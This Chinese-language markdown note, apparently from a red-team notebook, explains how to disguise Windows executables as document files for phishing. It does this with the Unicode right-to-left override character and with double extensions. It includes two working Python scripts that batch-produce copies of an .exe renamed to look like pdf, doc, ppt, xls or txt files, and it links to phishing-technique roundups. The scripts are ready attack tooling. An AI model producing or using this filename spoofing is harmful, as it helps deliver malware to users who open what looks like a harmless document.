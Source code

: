 # 文件名混淆

## RLO

> [特洛伊代码 - YYGQ site (srayu.ws)](https://yygq.srayu.ws/post/trojansource/)

RLO(Right-to-Left Override）是一种用于改变文本显示方向的特殊控制字符

在Unicode标准中，RLO的字符代码是U+202E。其主要作用是将后续文本的显示方向从默认的左到右（LTR）改为从右到左（RTL）

RLO可以用于例如阿拉伯语和希伯来语等本身是从右到左书写的语言的显示

这个显示效果会一直持续到接下来的一个换行符（或者是一些其他更复杂的规则，譬如 [U+202C PDF](https://codepoints.net/U+202C)）

![image-20240605113053649](http://cdn.ayusummer233.top/DailyNotes/202406051131187.png)

例如要把上面这个 `msedge.exe` 显示上看起来像是个 PDF 文件, 可以先改成 `msedgefdp.exe`

![image-20240605113402020](http://cdn.ayusummer233.top/DailyNotes/202406051134342.png)

然后在 `f` 前插入 `RLO`

![image-20240605113525917](http://cdn.ayusummer233.top/DailyNotes/202406051135781.png)

![image-20240605113547878](http://cdn.ayusummer233.top/DailyNotes/202406051348121.png)

---

可以写个程序批量给 exe 加 RLO 和文档后缀

> 伪装程序图标可以参阅[安装打包程序](../安装打包程序/利用Winrar捆绑恶意程序与合法程序.md)那节的内容, 这里没做批量构造

```Python
# 为指定文件批量生成用 RLO +  PDF,DOC,PPT,XLS 等伪造的文件
from pathlib import Path

def add_rlo_suffix(file_path:Path, new_extension_list:list[str])->None:
    """
    Add an RLO character to the file name to spoof its extension.

    :param file_path: 原始文件路径
    :param new_extension_list: 新扩展名列表
    """
    # RLO字符
    rlo_char = '\u202E'

    base_dir, filename = file_path.parent, file_path.name
    filename, current_extension = filename.rsplit('.', 1)
    base_dir = base_dir / filename
    base_dir.mkdir(parents=True, exist_ok=True)

    for new_extension in new_extension_list:
        # 生成新的文件名
        spoofed_file_path = base_dir / f"{filename}{rlo_char}{new_extension[::-1]}.{current_extension}"

        # 保存文件到新的路径
        spoofed_file_path.write_bytes(file_path.read_bytes())
    

original_file = "msedge.exe"
original_file_path = Path(__file__).parent / original_file
new_extension_list = ["pdf", "doc","docx", "ppt", "pptx","xls", "xlsx", "txt"]
spoofed_file = add_rlo_suffix(original_file_path, new_extension_list)
```

![image-20240605145917917](http://cdn.ayusummer233.top/DailyNotes/202406051459543.png)


---

## 扩展名伪装

Windows 文件资源管理器默认不会显示后缀名, 因此在文件名末尾, 扩展名之前添加文档扩展名也是一种常用的伪装钓鱼附件程序的方案

稍微改一下上面的RLO生成程序来批量构造扩展名伪装文件:

```python
# 为指定文件批量生成用 RLO +  PDF,DOC,PPT,XLS 伪造的文件
from pathlib import Path

def add_fake_suffix(file_path:Path, new_extension_list:list[str])->None:
    """
    :param file_path: 原始文件路径
    :param new_extension_list: 新扩展名列表
    """

    base_dir, filename = file_path.parent, file_path.name
    filename, current_extension = filename.rsplit('.', 1)
    base_dir = base_dir / f"{filename}_fake_extension"
    base_dir.mkdir(parents=True, exist_ok=True)

    for new_extension in new_extension_list:
        # 生成新的文件名
        spoofed_file_path = base_dir / f"{filename}.{new_extension}.{current_extension}"

        # 保存文件到新的路径
        spoofed_file_path.write_bytes(file_path.read_bytes())
    

# Example usage
original_file = "msedge.exe"
original_file_path = Path(__file__).parent / original_file
new_extension_list = ["pdf", "doc","docx", "ppt", "pptx","xls", "xlsx", "txt"]
spoofed_file = add_fake_suffix(original_file_path, new_extension_list)
```

![image-20240605152002116](http://cdn.ayusummer233.top/DailyNotes/202406061634777.png)

---

## 相关链接

- [钓鱼姿势汇总 - 简书 (jianshu.com)](https://www.jianshu.com/p/dcd250593698)
- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

---













---

